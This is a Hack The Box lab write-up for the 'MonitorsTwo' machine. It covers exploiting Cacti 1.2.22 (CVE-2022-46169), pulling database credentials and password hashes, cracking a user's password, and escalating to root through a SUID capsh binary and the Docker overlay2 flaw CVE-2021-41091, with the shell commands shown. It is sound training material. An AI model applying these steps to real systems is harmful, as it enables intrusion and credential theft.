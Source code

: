 # HTB MonitorsTwo

## Info
ip: 10.10.11.211

## Info gathering
When doing ping we can see that we are against a Linux VM since ping is close to 64

After an nmap scan through the whole port range we spot open ports 22 and 80.

Then we can investigate more on those ports and get
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Login to Cacti
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Seems like it's running cacti. A network monitoring software. after a simple GET / request to the port 80 we see that it is running Cacti 1.2.22. Which has a dangerous vulnerability `CVE-2022-46169`


## Exploitation to get first access
In the port 80 it's running cacti, a network monitoring software. After a simple GET / request to the port 80 we see that it is running Cacti 1.2.22. Which has a dangerous vulnerability `CVE-2022-46169` which allows RCE. CVE score is 9.8.

I used https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22 to open a shell into the machine.

Cacti seems to have a mysql/mariadb backend but I don't see any on localhost.

The machine runs Debian 11.

When reading [the manual of cacti](https://files.cacti.net/docs/html/unix_configure_cacti.html) we see that the config file is in `include/config.php`. So we can go there and expect to see the db credentials. And that was indeed the case:

```
$database_type     = 'mysql';
$database_default  = 'cacti';
$database_hostname = 'db';
$database_username = 'root';
$database_password = 'root';
$database_port     = '3306';
$database_retries  = 5;
$database_ssl      = false;
$database_ssl_key  = '';
$database_ssl_cert = '';
$database_ssl_ca   = '';
$database_persist  = false;
```
The hostname is `db`, but I don't see it on `/etc/hosts`.

I dont have neither nc, dig, nslookup or telnet to test connectivity with the DB or resolve the name.
But with getent I was able to resolve the hostname
```
bash-5.1$ getent hosts db
172.19.0.2      db
```
Seems like a separate host in the network or some container inside this one.

Then I went to connect to the DB with `mysql -h db -u root -proot`. And found credentials for accessing the web application.

Then I was able to get the users credentials from the users_auth table in the cacti schema:
```
admin    | $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC
guest    | 43e9a4ab75570f5b
marcus   | $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C
```
I tried to login into the service but it's not going trough.

This machine is weird for a regular VM. This DB hostname seems weird to me. And the /etc/hosts also, seems like this is running in a docker. I checked for the `/.dockerenv` and it exists, so we can confirm that we are inside of a docker container.

I had to reset the password, which is an md5 to get access. Nothing interesting inside cacti.

I don't see any interesting vulnerability in mysql or nginx. At this point I'm guessing that marcus password is also reused as the password of the main host.

Decripted the md5 online and resulted on `funkymonkey`. So trying that for logging though SSH as `marcus`. It goes though and I get to retrieve the user flag.

## Privilege escalation

- No SUID files
- HAProxy only has a DOS vulnerability
- No crons
- No sudo permissions
- No docker group
- Docker is version 20.10.5, so it's vulnerable to CVE-2021-41091, but we are not root in any container. At least for now.

Mysql container seems tight in security but we already have some level of access in the cacti one. So let's attempt to do priv esc in that last one.

When checking the SUID files available we see the /sbin/capsh. In [GTFOBins](https://gtfobins.github.io/gtfobins/capsh/) we can see how to exploit it. With `capsh --gid=0 --uid=0 --` we'll turn our shell to root. After gaining access we need to run `chmod u+s /bin/bash`.

Once bash has SUID we can run the exploit for CVE-2021-41091 from the user `marcus` in the host where we already have access. Then we have root access.

```
marcus@monitorstwo:/tmp$ cd /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged$ ./bin/bash -p
bash-5.1# cd /root/
bash-5.1# id
uid=1000(marcus) gid=1000(marcus) euid=0(root) groups=1000(marcus)
bash-5.1# whoami
root
```

